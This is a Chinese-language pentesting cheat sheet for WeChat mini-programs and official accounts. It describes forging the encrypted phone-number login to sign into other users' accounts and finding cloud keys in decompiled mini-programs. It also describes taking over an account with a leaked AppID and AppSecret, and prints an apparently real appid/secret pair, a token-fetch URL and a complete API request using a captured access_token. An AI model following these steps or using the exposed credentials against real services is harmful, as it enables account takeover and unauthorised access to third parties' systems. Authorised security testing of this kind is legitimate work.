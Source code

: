 小程序使用了云服务，有可能在小程序反编译中看到云服务的账号密码，如云OSS的accessskey等。
也可以反编译看小程序有没有越权访问，接口信息泄露。

小程序反编译hook辅助工具：<https://github.com/eeeeeeeeee-code/e0e1-wx>

## **登录接口场景漏洞**
加密base64伪造
传参有：sessionKey的base64+iv的base64(每次会变)+用户信息的加密(每次会变)。可以使用工具解密，替换用户手机号再加密，替换。实现登录他人账号。
案例：<https://github.com/mrknow001/BurpAppletPentester/tree/main>
工具：<https://github.com/wwxiaoqi/WeChatLoginDecrypt>
里边有使用的场景及案例。

如：在手机号一键快捷登录的请求包存在
![image-20240625092851353](http://cdn.33129999.xyz/mk_img/image-20240625092851353.png)
拦截，解密修改已有手机号再加密，替换encryredDate字段，再提交发包即可登录他人手机号，小程序里可看。


^
## **小程序登录获取token，再拿token去请求网站接口**
或者小程序里抓包修改url为网站里的url。
最好用手机小程序登录，保证所有页面访问到（电脑可能有的按钮点不动访问不了接口）。

<https://developers.weixin.qq.com/community/minihome/doc/0004a84fcb0bb0e89eddbaa5156401>


^
## **微信小程序AppID和AppSecret泄露接管**
泄露AppID和AppSecret，可以使用工具生成access_token，从而接管小程序。


获取access_token参数，然后通过添加认证参数才可以调用官方接口。
首先获取access_token，通过拼接泄露的appid和secret获取
``` 
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=appid&secret=appsecret
```
通过access_token调用官方接口。
<https://mp.weixin.qq.com/debug>

接管小程序，在下放平台直接通过access_token调用查询小程序配置接口。
<https://developers.weixin.qq.com/apiExplorer>
![image-20240826012304904](http://cdn.33129999.xyz/mk_img/image-20240826012304904.png)



^
## **公众号AppID和AppSecret泄露接管**

获取access_token参数，然后通过添加认证参数才可以调用官方接口。
首先获取access_token，通过拼接泄露的appid和secret获取。防御：设置ip白名单
``` 
wxa6d106695affb672
635a58cb1e0825b10cc2d254424e8ad
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=wxa6d106695affb672&secret=635a58cb1e0825b10cc2d254424e8ad
```
通过access_token调用官方接口。个人公众号和未认证公众号大部分接口无法调用
<https://mp.weixin.qq.com/debug>
<https://static.kancloud.cn/lengyueguang/linux/978990>
<https://mp.weixin.qq.com/advanced/advanced?action=table&token=208373046&lang=zh_CN>

通过appid查微信公众号名称，避免是测试号。
<https://developers.weixin.qq.com/community/develop/doc/0006c2fbb5002096618a51a355c000>
<https://kainy.cn/api/mpAppidQuery/?appid=wxc379f01fb36c6b0e>

^
没有菜单可以加一个菜单证明
```

POST /cgi-bin/menu/create?access_token=83_TlKkA9-Ymj7IZ3hE1rCoFv2Ql6p1zXQehe_DPDf8S4uPH77qyYt3bBevNMc2B4ZZb5yvY0YZJONswlLQyHQHhBp7fZzaN0bNVOYT073BFsf8ZjlLAdCRUD52S5AVYNiAGAADS HTTP/1.1
Host: api.weixin.qq.com
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
Accept-Encoding: gzip, deflate, br, zstd
Role-Id:
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Captcha-Code: 76842
Dept-Id:
Tenant-Id: 000000
Captcha-Key: 4503c657-cca3-443a-ae20-6134599ff93f
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Content-Length: 7

{
    "button": [
        {
            "type": "click", 
            "name": "1", 
            "key": "1001_TODAY_MUSIC"
        }
    ]
}
```